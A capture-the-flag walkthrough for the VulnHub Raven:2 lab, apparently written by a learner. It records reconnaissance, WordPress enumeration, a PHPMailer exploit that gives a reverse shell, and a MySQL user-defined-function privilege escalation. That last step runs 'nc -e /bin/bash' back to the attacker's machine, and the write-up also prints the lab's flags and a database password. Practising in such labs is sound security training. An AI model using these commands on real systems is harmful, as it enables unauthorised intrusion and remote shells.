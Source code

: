 

# Raven: 2 Walkthrough

**VulnHub Link:** [Raven:2](https://www.vulnhub.com/entry/raven-2,269/)
**Difficulty:** Easy
**Release Date:** 9 Nov 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.160

dirb 192.168.100.160


## 2.Web Enumeration

we found out website use wordpress

sudo echo 'raven.local		192.168.100.160' > /etc/hosts

wpscan --url 'http://raven2.local/wordpress' -e ap,u

flag1 found from http://192.168.100.160/vendor/PATH
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

we obtain flag3 from image 
flag3{a0f568aa9de277887f37730d71520d9b}

michael and steven users found

## 3.Exploitation

we found an exploit related to phpmailer

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/phpmailer.py

we change host and port in phpmailer.py and run

in another terminal ---> rlwrap nc -nvlp 1234

python phpmailer.py , shell obtained..

flag2 found from /var/www/
flag2{6a8ed560f0b5358ecf844108048eb337} 


then we found mysql root password from /var/www/html/wordpress/wp-config.php

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/raven.c

gcc -g -fPIC -shared -o raven.so raven.c

we send this raven.so to attack machine

## 4.Privilege Escalation

```bash
mysql -u root -p R@v3nSecurity```

```bash
use mysql;```
```create table raven(line blob);```
```insert into raven values(load_file('/var/tmp/raven.so'));```
```select *from raven into dumpfile "/usr/lib/mysql/plugin/raven.so";```
```create function do_system returns integer soname 'raven.so';```
```select do_system("nc -nv 192.168.100.14 4444 -e /bin/bash"); ---> in another terminal we run ---> nc -nvlp 4444```

we obtain root shell and flag4 found...!
